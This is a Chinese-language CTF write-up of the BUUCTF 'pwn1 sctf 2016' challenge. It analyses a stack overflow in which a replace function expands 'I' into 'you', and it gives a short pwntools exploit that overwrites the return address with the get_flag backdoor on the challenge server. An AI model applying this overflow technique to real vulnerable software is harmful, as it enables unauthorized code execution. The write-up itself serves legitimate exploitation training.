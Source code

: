 ```yaml
---
author: 
  name: Zephyr
title: pwn1 sctf 2016
date: 2022-3-19 20:42:02
permalink: /pages/2e954742e524d18b
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# pwn1 sctf 2016

## 前提

### 查看文件保护

```shell
root@localhost ~# checksec pwn1_sctf_2016
[*] '/root/pwn1_sctf_2016'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## 静态分析

主函数只调用了一个`vuln`函数，该函数如下

![pwn1_sctf_2016_1](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/blog/pwn1_sctf_2016_1.png)

查找函数表发现后门函数`get_flag`

![pwn1_sctf_2016_2](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/blog/pwn1_sctf_2016_2.png)

## 思路分析

1. 目前信息
   - 变量`s`处可写入32字节数据
   - s距离返回地址的偏移量为`0x3c+4>32`，不够溢出
   - 存在后门函数
2. replace函数
   - 查看后发现其作用为循环检测将我们输入的字符`I`替换为字符`you`
3. 思路
   - `replace`函数在字符替换的过程中将1个字节替换为了3个字节的数据，所以理论上可以通过输入21个`I`加1个`a`的方式溢出到返回地址处，将该处覆盖为后门函数的地址即可获得`flag`

## exp

```python
from pwn import *
context(os='linux', arch='i386', log_level='debug')
pwnfile = '/root/pwn/buuctf/pwn1_sctf_2016/pwn1_sctf_2016'
# io = process(pwnfile)
io = remote('node4.buuoj.cn', 28185)
elf = ELF(pwnfile)
backdoor = elf.symbols['get_flag']
payload = flat(['I'*21, 'a', backdoor])
io.sendline(payload)
io.interactive()
```